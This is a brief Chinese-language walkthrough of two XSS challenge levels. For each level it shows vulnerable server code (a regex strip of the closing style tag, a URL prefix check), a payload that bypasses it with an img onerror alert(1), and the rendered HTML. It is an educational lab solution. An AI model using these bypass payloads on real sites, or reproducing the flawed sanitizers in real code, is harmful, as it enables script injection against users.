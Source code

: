 ## 0x08

利用 HTML 容错机制绕过正则替换

Server Code

```js
function render(src) {
  src = src.replace(/<\/style>/gi, "/* \u574F\u4EBA */");
  return `
    <style>
      ${src}
    </style>
  `;
}
```

Input Code

```js
</style >
<img src="" onerror="alert(1)"
```

HTML

```html
<style>
      </style >
<img src="" onerror="alert(1)"
    </style>
```

## 0x09

匹配指定的 URL 后闭合双引号和标签

Server Code

```js
function render(input) {
  let domainRe = /^https?:\/\/www\.segmentfault\.com/;
  if (domainRe.test(input)) {
    return `<script src="${input}"></script>`;
  }
  return "Invalid URL";
}
```

Input Code

```js
https://www.segmentfault.com/"></script><img src="" onerror="alert(1)"><!--
```

HTML

```html
<script src="https://www.segmentfault.com/"></script><img src="" onerror="alert(1)"><!-- "></script>
```
